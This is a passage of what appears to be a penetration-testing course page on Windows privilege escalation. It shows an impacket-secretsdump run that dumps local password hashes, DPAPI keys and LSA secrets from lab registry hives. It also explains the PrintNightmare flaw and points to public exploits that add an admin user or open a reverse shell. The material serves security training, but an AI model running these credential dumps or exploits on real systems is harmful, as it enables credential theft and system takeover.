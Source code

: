Kernel Exploits

```shell-session
swmpdnky@htb[/htb]$ impacket-secretsdump -sam SAM-2021-08-07 -system SYSTEM-2021-08-07 -security SECURITY-2021-08-07 local

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Target system bootKey: 0xebb2121de07ed08fc7dc58aa773b23d6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:c93428723187f868ae2f99d4fa66dceb:::
mrb3n:1001:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
htb-student:1002:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x3c7b7e66890fb2181a74bb56ab12195f248e9461
dpapi_userkey:0xc3e6491e75d7cffe8efd40df94d83cba51832a56
[*] NL$KM 
 0000   45 C5 B2 32 29 8B 05 B8  E7 E7 E0 4B 2C 14 83 02   E..2)......K,...
 0010   CE 2F E7 D9 B8 E0 F0 F8  20 C8 E4 70 DD D1 7F 4F   ./...... ..p...O
 0020   42 2C E6 9E AF 57 74 01  09 88 B3 78 17 3F 88 54   B,...Wt....x.?.T
 0030   52 8F 8D 9C 06 36 C0 24  43 B9 D8 0F 35 88 B9 60   R....6.$C...5..`
NL$KM:45c5b232298b05b8e7e7e04b2c148302ce2fe7d9b8e0f0f820c8e470ddd17f4f422ce69eaf5774010988b378173f8854528f8d9c0636c02443b9d80f3588b960
```

`CVE-2021-1675/CVE-2021-34527 PrintNightmare` is a flaw in [RpcAddPrinterDriver](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/f23a7519-1c77-4069-9ace-a6d8eae47c22) which is used to allow for remote printing and driver installation. This function is intended to give users with the Windows privilege `SeLoadDriverPrivilege` the ability to add drivers to a remote Print Spooler. This right is typically reserved for users in the built-in Administrators group and Print Operators who may have a legitimate need to install a printer driver on an end user's machine remotely. The flaw allowed any authenticated user to add a print driver to a Windows system without having the privilege mentioned above, allowing an attacker full remote code execution as SYSTEM on any affected system. The flaw affects every supported version of Windows, and being that the Print Spooler runs by default on Domain Controllers, Windows 7 and 10, and is often enabled on Windows servers, this presents a massive attack surface, hence "nightmare." Microsoft initially released a patch that did not fix the issue (and early guidance was to disable the Spooler service, which is not practical for many organizations) but released a second [patch](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) in July of 2021 along with guidance to check that specific registry settings are either set to `0` or not defined. Once this vulnerability was made public, PoC exploits were released rather quickly. [This](https://github.com/cube0x0/CVE-2021-1675) version by [@cube0x0](https://twitter.com/cube0x0) can be used to execute a malicious DLL remotely or locally using a modified version of Impacket. The repo also contains a C# implementation. This [PowerShell implementation](https://github.com/calebstewart/CVE-2021-1675) can be used for quick local privilege escalation. By default, this script adds a new local admin user, but we can also supply a custom DLL to obtain a reverse shell or similar if adding a local admin user is not in scope.

#### Checking for Spooler Service
